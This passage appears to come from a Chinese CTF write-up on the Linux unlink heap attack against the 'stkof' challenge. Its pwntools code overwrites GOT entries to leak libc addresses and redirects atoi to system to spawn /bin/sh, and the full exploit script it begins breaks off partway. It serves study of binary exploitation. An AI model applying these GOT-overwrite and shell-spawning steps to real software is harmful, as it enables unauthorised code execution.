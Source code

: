 ```python
此时
globals[0] = elf.got['free']
globals[1] = elf.got['puts']
globals[2] = elf.got['atoi']
```

接下来我们把free_got替换成puts_plt

```python
payload = p64(elf.plt['puts'])
fill(0,payload)
```

之后我们再执行free(1)时，相当于puts(puts_got)，可以拿到puts的真实地址，又知道libc，可以通过偏移知道system

```python
free(1)     #put(puts@pot)
puts_addr = shell.recvuntil("\nOK\n",drop=True).ljust(8,'\x00')
puts_addr = u64(puts_addr)
libcbase = puts_addr - libc.symbols['puts']
system_addr = libcbase + libc.symbols['system']
```

接着我们将atoi_got替换成system就能获得shell

```
payload = p64(system_addr)
fill(2,payload)

shell.sendline('/bin/sh')
shell.interactive()
```

![image-20220922151247378](LinuxUnlink%E6%94%BB%E5%87%BB%E6%8A%80%E6%9C%AF%E5%AD%A6%E4%B9%A0.assets/image-20220922151247378.png)

完整exp

```python
# coding=utf-8
from pwn import *

link = 0
if link == 1:
    shell = remote("", )
else:
    shell = process("./stkof")
elf = ELF("./stkof")
libc = ELF("./libc.so.6")

def alloc(size):
    shell.sendline("1")
    shell.sendline(str(size))
    shell.recvuntil("OK\n")

def fill(idx, cont):
```